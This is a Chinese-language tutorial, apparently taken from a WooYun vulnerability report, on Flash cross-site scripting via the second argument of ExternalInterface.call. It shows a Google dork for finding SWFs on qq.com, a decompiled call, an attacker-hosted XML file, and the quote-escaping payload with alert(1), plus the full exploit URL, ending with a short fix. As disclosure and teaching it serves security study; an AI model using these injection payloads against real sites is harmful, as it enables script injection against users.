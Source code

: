 # 16\. Flash Xss 进阶 [ExternalInterface.call 第二个参数]

# 16\. Flash Xss 进阶 [ExternalInterface.call 第二个参数]

> 来源：[16\. Flash Xss 进阶 [ExternalInterface.call 第二个参数]](http://www.wooyun.org/bugs/wooyun-2010-016598)

## 简要描述

讲完 ExternalInterface.call 的第一个参数，我们接着来讲第“2”个参数，之所以 2 打上引号，因为 call 函数的原型是：

`call(functionName:String, ... arguments):*`， 即后面可以有很多很多个参数，我们统称为第 2 个参数。有时候我们会遇到 `ExternalInterface.call("xxxxx","可控内容");`的情况，那么这种情况下，如何构造 XSS 呢？

1\. 有了上一节教程的基础，这次我们直接见实例。

通过 GOOGLE 搜索，site:qq.com filetype:swf inurl:xml 我们可以找到以下 FLASH。

```
http://imgcache.qq.com/qzone_v4/2/default_menu_horizontal.swf?xml_path=http://imgcache.qq.com/qzone/client/custom_men u/custom_menu.xml 
```

2\. 借鉴上上节教程的思路，我们可以看看 [`imgcache.qq.com/qzone/client/custom_menu/custom_menu.xml`](http://imgcache.qq.com/qzone/client/custom_menu/custom_menu.xml) 里是个什么内容。

![image](img/Image_084.jpg)

3\. 好像看不出来是个啥用途，我们反编译 FLASH 文件。

![image](img/Image_085.jpg)

4\. 接着我们先看看是否有 getURL, `ExternalInterface.call` 之类的。

![image](img/Image_086.jpg)

可以看到，我们搜索到的是下面这句：

```
flash.external.ExternalInterface.call("custom_menu_swf", menu_array[_local2].href); 
```

那么 call 的第一个参数是被限定死了～，第 2 个参数为 `menu_array[_local2].href`，如果你对 AS 有一点了解，不难看出 `menu_array` 是一个数组，那么`_local2` 应该就是数组的下标， 而从单词含义“菜单数组”我们不难联想到上面 xml 文件里的数据。

![image](img/Image_087.jpg)

5\. 换句话说，这里我们的可以控制 call 的第 2 个参数。同教程 14 中的方法，我们下来

```
http://imgcache.qq.com/qzone/client/custom_menu/custom_menu.xml 。 
```

先做点修改，然后上传到自己网站上。 我们将代码里日志那一行的 href 改掉。

```
<menu name="日 志" href="\&quot;,alert(1)" /> 
```

上传修改后的文件，同时记得将 crossdomain.xml 上传至自己的网站根目录下哦～～（见教程 14）

6\. 接着我们载入我们自己指定的 XML 文件。

```
http://imgcache.qq.com/qzone_v4/2/default_menu_horizontal.swf?xml_path=http://itsokla.duapp.com/custom_menu.xml 
```

7\. 接着我们打开 Firefox 浏览器。 有人会问，你怎么突然要用 Firefox 啊！疯了么！！ 同志们，我没疯，只是因为 FF 可以捕获到这 里的错误，而 chrome 捕获不到！

我们打开 Firefox 后， 访问上面的地址，点击【日志】按钮！！ Ctrl+shift+J 打开错误控制台！可以看到以下报错！

![image](img/Image_088.jpg)

8\. 记性好的朋友，会马上想起上一节里我们说到的。

```
ExternalInterface.call("函数名","参数 1"); 
```

实际上执行的是以下内容，

```
try { flash toXML(函数名("参数 1")) ; } catch (e) { "<undefined/>"; } 
```

我们就是从 FF 这里捕获错误到这点的！（:) 当然也还会有其他方法）。 为什么会出错呢? 我们一起来看看。

9\. 当我们点击 【日志】按钮时，会调用。

```
flash.external.ExternalInterface.call("custom_menu_swf", menu_array[_local2].href); 
```

而 `menu_array[_local2].href` 等于 `\",alert(1)`, 进而，我们代入完整的代码，即如下：

```
try { flash toXML(custom_menu_swf("\\",alert(1)")) ; } catch (e) { "<undefined/>"; } 
```

转换过程如下图：

![image](img/Image_089.jpg)

可以看到转换之后，JS 代码有点乱，引号到处飞，括号无处寻，因而报错了！

10\. 那么我们怎么构造正确的利用代码呢？其实有上一节的知识并不难！

```
try { flash toXML(custom_menu_swf("构造点构造点")) ; } catch (e) { "<undefined/>"; } 
```

首先第一步，要注入自己代码，首先要闭合掉双引号！

```
try { flash toXML(custom_menu_swf("构造点"),alert("构造点")) ; } catch (e) { "<undefined/>"; } 
```

但是从上面转换流程，我们可以看到， `"` 会变成 `\"`, 即变成了下面的样子，还是突破不出去。

```
try { flash toXML(custom_menu_swf("构造点\"),alert(\"构造点")) ; } catch (e) { "<undefined/>"; } 
```

![image](img/Image_090.jpg)

不过非常庆幸的事情是，这里没有对 `\` 进行转义。 我们可以通过输入 `\"` 来构造。JS 的字符串里，`\` 用 `\\` 表示。如下：

```
try { flash toXML(custom_menu_swf("构造点\\"))}catch(e){alert(1)}//构造点")) ; } catch (e) { "<undefined/>"; } 
```

图片分析如下：

![image](img/Image_091.jpg)

11\. 罗嗦了这么多，我们把构造点代码，拿出来，插入到 XML 文件里。注意以下几点：

11.1 最后构造的代码是`\\"`, 实际我们的输入是`\"`，然后由 FLASH 自己转变为`\\"`的，因而利用代码里只需要输入`\"`即可。

11.2 由于在 XML 的节点属性里，双引号写为 `&quot;`

```
<menu name="日 志" href="构造点\&quot;))}catch(e){alert(1)}//构造点" /> 
```

12\. 再次上传文件。打开

```
http://imgcache.qq.com/qzone_v4/2/default_menu_horizontal.swf?xml_path=http://itsokla.duapp.com/custom_menu.xml 
```

点击日志，看看效果。

![image](img/Image_092.jpg)

## 修复方案

1\. 禁止调用第三方的外部 XML 文件。